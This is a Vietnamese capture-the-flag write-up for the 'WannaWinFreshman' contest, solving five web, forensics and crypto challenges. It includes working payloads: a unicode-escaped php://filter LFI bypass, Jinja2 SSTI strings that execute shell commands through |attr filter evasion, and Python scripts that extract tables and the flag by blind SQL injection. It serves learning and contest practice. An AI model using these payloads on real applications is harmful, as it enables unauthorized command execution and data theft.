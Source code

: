 # WannaWinFreshman-Writeup
# Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/63658021-4722-4417-b2ed-48eb746d03fe)

- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Bài này mới vào thì mình nghĩ đến LFI với filter base64 nhưng khổ nổi là nó chặn ngay chữ php, data, file nên mình không thể chuyển qua base64 được
- Sau gần 30 phút - 1 tiếng thì mình tìm được một bài viết dưới đây [LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c7280b09-24af-47b3-9a0e-e82ed1894471)
- Cơ bản là json_decode nó sẽ decode luôn unicode trong biểu diễn hex thành chữ cái vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/463ea634-efa7-4c42-b0d9-92341d335d5b)
- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
- ~~Funfact: Payload mình làm ra bài này là encode gần như tất cả các ký tự thành dạng unicode biểu diễn hex làm mình tốn rất nhiều thời gian <(")~~
# Bài 2 Namename:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/d8bc1de3-0f9a-45ff-9878-141cd0df45ad)
- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c1b22bdc-3266-495f-b6e0-a7edcd95eef0)
- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2 ( Mình sẽ nói về rõ cách SSTI này lần sau :v)
- Mình ném ngay payload của mình vào thử xem RCE được không
- Payload : `{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}`
- Và nó bị chặn ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/77f0aa01-5dfa-4ad9-9c2b-9e6ba8736812)
- Sau vài thử nghiệm thì có vẽ nó chặn dấu `.` và `[]` nên mình chuyển qua |attr

- Payload mới: `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`
- Và ok nó hoạt động tốt
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2883ff9a-261d-4332-81c6-937c70020427)
- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt` thôi
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/28f86e01-25e7-4e51-8e67-9e53225a5f43)
- Và không nó vẫn bị chặn cái gì đấy nên mình sử dụng cách này bypass filter ( chổ này là chặn dấu `.` và chữ `f` thì phải)
- `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2c578c66-f98c-43dd-a306-e629ab3f7137)
- Flag: **W1{U_are_master_in_SSTI}**
- Ngoài lề: ~~ Thật ra thì còn 1 cách bypass tà đạo nữa mà sau này mình sẽ viết 1 bài riêng về cái này mình nghĩ cách này bypass cũng kha khá <(") ~~
# Bài 3 Solite:
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/5d20fa22-0fc9-4f4c-8039-7de1d61b594f)
- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như này mà làm sao đó mà tìm được flag
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/7d1fe742-a26a-4705-9888-f2d827d562b5)
- Sau khi nghiên cứu và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter vì trong filter là substrs thứ mà không hề tồn tại
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/ae13e11e-52fe-4bb5-8360-c2095b361fc4)
- Đây là query của bài
  ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/317e6d80-27b4-41c2-b14b-c4b6e6d84b37)
- Sau một vài thử nghiệm thì mình tìm được cách để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i
` 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/32f3cf53-f620-48af-8da5-d07cfca0a405)

`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Script của mình
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```
- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
# Bài 4 Differences:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/988dc17d-907d-4b7b-a897-9d524e8a17ab)
- Flag ngay ở trong file
- Flag: **W1{SaKur4_s0_b34uTiFuL_RI9ht?????}**
# Bài 5 Free Flag:
- Đọc file pcapng ta tìm được source và key
```py
import base64

BANNER = """ ___       __   ________  ________   ________   ________  ___       __     _____  ________      
|\  \     |\  \|\   __  \|\   ___  \|\   ___  \|\   __  \|\  \     |\  \  / __  \|\   ___  \    
\ \  \    \ \  \ \  \|\  \ \  \\\ \  \ \  \\\ \  \ \  \|\  \ \  \    \ \  \|\/_|\  \ \  \\\ \  \   
 \ \  \  __\ \  \ \   __  \ \  \\\ \  \ \  \\\ \  \ \   __  \ \  \  __\ \  \|/ \ \  \ \  \\\ \  \  
  \ \  \|\__\_\  \ \  \ \  \ \  \\\ \  \ \  \\\ \  \ \  \ \  \ \  \|\__\_\  \   \ \  \ \  \\\ \  \ 
   \ \____________\ \__\ \__\ \__\\\ \__\ \__\\\ \__\ \__\ \__\ \____________\   \ \__\ \__\\\ \__\\
    \|____________|\|__|\|__|\|__| \|__|\|__| \|__|\|__|\|__|\|____________|    \|__|\|__| \|__|
"""

KEY = bytes.fromhex('deadbeef')

def encryptSecret(secret):
    lst_byte = []
    for i in range(len(secret)):
        enc_byte = ord(secret[i]) ^ KEY[i % len(KEY)]
        lst_byte.append(enc_byte.to_bytes(1, 'big'))
    
    return base64.b64encode(b''.join([_ for _ in lst_byte])).decode()

if __name__=='__main__':
    print(BANNER)
    secret = input("> Please give me your secret: ")
    print("\n> Here is your encrypted secret:", encryptSecret(secret)
```

![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/14a5404c-0f1f-4983-927e-98dd9a82456c)
- Decrypt lại ta sẽ có flag
```py
import base64

KEY = bytes.fromhex('deadbeef')

def decryptSecret(encrypted_secret):
    encrypted_bytes = base64.b64decode(encrypted_secret.encode())
    decrypted_bytes = [encrypted_bytes[i] ^ KEY[i % len(KEY)] for i in range(len(encrypted_bytes))]
    decrypted_text = ''.join([chr(byte) for byte in decrypted_bytes])
    return decrypted_text

secret = "iZzFsKme0oOdndOqgdnxsKmZ0KG/2o+hgdA="

print(decryptSecret(secret))
```
- Flag: **W1{_w3llC0mE_tO_w4nNaw1N_}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~









